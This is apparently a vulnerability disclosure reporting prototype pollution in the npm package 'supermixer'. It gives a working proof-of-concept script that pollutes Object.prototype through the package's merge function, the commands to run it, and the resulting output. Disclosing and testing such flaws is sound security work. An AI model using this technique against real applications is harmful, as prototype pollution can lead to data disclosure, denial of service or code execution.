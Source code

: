 # Description

`supermixer` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { merge } =  require('supermixer')

console.log(`Before: ${{}.polluted}`)
merge({}.__proto__, {polluted: true})
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i supermixer # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

